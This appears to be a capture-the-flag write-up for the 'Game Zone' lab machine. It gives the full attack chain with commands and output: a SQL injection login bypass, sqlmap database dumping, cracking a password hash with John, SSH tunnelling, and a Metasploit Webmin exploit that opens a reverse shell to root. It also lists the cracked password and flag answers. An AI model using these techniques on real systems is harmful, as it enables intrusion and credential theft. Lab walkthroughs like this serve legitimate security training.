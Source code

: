 ### [searchreq.txt](./searchreq.txt)
### [hash.txt](./hash.txt)
### [sqlmap.dump.txt](./sqlmap.dump.txt)
### [db.dump.csv](./db.dump.csv)
### [user.dump.cvs](./user.dump.cvs)

## Task 1 Deploy the vulnerable machine

### nmap

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-30 02:07 EDT
Nmap scan report for 10.10.5.24
Host is up (0.087s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.96 seconds

```

> What is the name of the large cartoon avatar holding a sniper on the forum?

agent 47

Google image search

## Task 2 Obtain access via SQLi

Use `' or 1=1 -- -` as your username and leave the password blank.

> When you've logged in, what page do you get redirected to?
portal.php

## Task 3 Using SQLMap

First we need to intercept a request made to the search feature using BurpSuite.

```
POST /portal.php HTTP/1.1
Host: 10.10.5.24
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.5.24
Connection: close
Referer: http://10.10.5.24/portal.php
Cookie: PHPSESSID=1pejo9crsgju8gbupmea9ljb42
Upgrade-Insecure-Requests: 1

searchitem=sdfs
```

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

```
sqlmap -r request.txt --dbms=mysql --dump

# -r uses the intercepted request you saved earlier
# --dbms tells SQLMap what type of database management system it is
# --dump attempts to outputs the entire database
```

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.


> In the users table, what is the hashed password?

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

> What was the username associated with the hashed password?

agent47

> What was the other table name?

post

all in the sql dump files


## Task 4 Cracking a password with JohnTheRipper

Once you have JohnTheRipper installed you can run it against your hash using the following arguments:


```
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

# hash.txt - contains a list of your hashes (in your case its just 1 hash)
# --wordlist - is the wordlist you're using to find the dehashed value
# --format - is the hashing algorithm used. In our case its hashed using SHA256.
```

```
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 ASIMD 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2021-09-30 02:44) 1.587g/s 13315Kp/s 13315Kc/s 13315KC/s 123456..ejrhz
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed

```

> What is the de-hashed password?
videogamer124

Now you have a password and username. Try SSH'ing onto the machine.
`ssh agent47@10.10.5.24`

> What is the user flag?
```
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## Task 5 Exposing services with reverse SSH tunnels

```
Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.
```


```
We will use a tool called ss to investigate sockets running on a host.

If we run ss -tulpn it will tell us what socket connections are running
```

> How many TCP sockets are running?

5

```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
udp    UNCONN     0      0        *:68                   *:*
udp    UNCONN     0      0        *:57753                *:*
udp    UNCONN     0      0        *:10000                *:*
tcp    LISTEN     0      80     127.0.0.1:3306                 *:*
tcp    LISTEN     0      128      *:10000                *:*
tcp    LISTEN     0      128      *:22                   *:*
tcp    LISTEN     0      128     :::80                  :::*
tcp    LISTEN     0      128     :::22                  :::*
```


From your local machine, run
```
$ ssh -L 10000:localhost:10000 agent47@<ip>
```
to connect to the webserver at port 10k, login as agent47

> What is the name of the exposed CMS?
webmin

> What is the CMS version?
1.580



## Task 6 Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.10.241.11     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME  agent 47         yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.240.61      yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580

```
according to the exploit https://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf
the show.cgi file will let authenticated user to run any commands as root, like so:
`http://localhost:10000/file/show.cgi/root/root.txt`

> What is the root flag?

a4b945830144bdd71908d12d902adeee